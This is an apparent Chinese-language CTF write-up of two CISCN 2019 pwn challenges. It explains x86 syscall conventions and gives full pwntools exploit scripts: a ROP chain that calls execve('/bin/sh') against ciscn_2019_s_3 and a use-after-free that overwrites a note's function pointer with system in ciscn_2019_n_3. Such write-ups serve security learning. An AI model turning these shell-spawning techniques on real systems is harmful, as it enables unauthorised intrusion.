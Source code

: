 ```yaml
---
title: CISCN_PWN
date: 2021-04-08 
tags: PWN
categories: Technology
---
```


[TOC]



## ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>　　1. 传参方式不同
>
>　　2. 系统调用号 不同
>
>　　3. 调用方式 不同

　　32位：

```
传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4

调用方式: 使用 int 80h 中断进行系统调用
```

　　64位：

```
传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1

stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15

调用方式: 使用 syscall 进行系统调用
```

调用：\$rax\=\=59，\$rdi\=\=“/bin/sh”，\$rsi\=\=0，\$rdx\=\=0

首先往栈上写0x400，然后从栈上读0x30

经过调试发现输入后返回的是写入栈上的位置。

![image-20210511160829045](CISCN-PWN/image-20210511160829045.png)

将0x00007ffe7d621e58减去0x00007ffe7d621d40得到0x118（固定）

所以经过recv的地址减去0x118就是写入/bin/sh的地址

有个gadgets函数：

![image-20210511161319133](CISCN-PWN/image-20210511161319133.png)

其中的0x3B就是59，系统调用，

> hex(0x00007ffe7d621e58 - 0x7ffe7d621d40)
> '0x118'

![image-20210511162201775](CISCN-PWN/image-20210511162201775.png)

r12是将要执行的地址。

```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```



## ciscn_2019_n_3

new()中，分为两种type，一种是整形，一种是字符串，字符串的话将地址放在chunk中。

分配的0x10的有8byte写了两个函数的地址。（str_printf和str_free）

所以直接将free的地址改为system然后执行就OK。

这道题第一开始一直没太搞懂。

![image-20210512205816626](CISCN-PWN/image-20210512205816626.png)

他delete了1和2之后，bin中有了两个，再下来new3 写入的时候，首先是malloc了1e0的那个位置，之后存放的地址是1a0那里，一直以为是1f0的位置。。。所以写入的sh+system的地址是1a0。

还有就是为什么sh的地址是1a0，可以这样查看，![image-20210512210029878](CISCN-PWN/image-20210512210029878.png)

exp：

```python
from pwn import *

p = process("./ciscn_2019_n_3")
context.log_level = 'debug'
elf = ELF("ciscn_2019_n_3")
def newnote(idx,type,value,length=0):
    p.recvuntil("CNote > ")
    p.sendline(str(1))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
    p.recvuntil("Type > ")
    p.sendline(str(type))
    if type == 1:
        p.recvuntil("Value > ")
        p.sendline(str(value))
    else:
            p.recvuntil("Length > ")
            p.sendline(str(length))
            p.recvuntil("Value > ")
            if length == 8:
                p.send(value)
            else:
                p.sendline(value)
def delnote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(2))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
def shownote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(3))
    p.recvuntil("Index > ")
    p.sendline(str(idx))

newnote(0,2,'a'*0x10,0x2c)
newnote(1,2,'b'*0x10,0x2c)
newnote(2,2,'c'*0x10,0x2c)

delnote(1)
delnote(2)
#gdb.attach(p)
newnote(3,2,'sh\x00\x00'+ p32(elf.plt['system']),0xc)
gdb.attach(p)
delnote(1)

p.interactive()
```

